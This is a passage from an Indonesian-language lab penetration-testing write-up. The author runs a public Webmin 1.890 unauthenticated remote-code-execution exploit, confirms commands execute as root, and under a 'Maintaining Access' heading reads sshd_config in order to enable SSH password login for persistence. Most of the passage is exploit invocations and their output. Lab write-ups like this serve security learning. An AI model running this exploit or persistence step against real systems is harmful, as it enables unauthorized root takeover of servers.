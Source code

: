 ```bash
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
root
</p>
```

Ternyata command dieksekusi langsung oleh `root`, sehingga di sini saya tidak perlu lagi melakukan priviledge escalation.

## 4. Maintaining Access
Setelah dapat melakukan RCE, langkah selanjutnya yang paling mudah adalah membuat akses ssh, sehingga saya bisa mengakses shell mesin langsung dari terminal saya. Saya mencoba untuk enable autentikasi ssh menggunakan password, dengan cara mengecek config terlebih dahulu.

```bash
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 "cat /etc/ssh/sshd_config"
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
  STAIN = """


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
#	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
#LogLevel INFO

```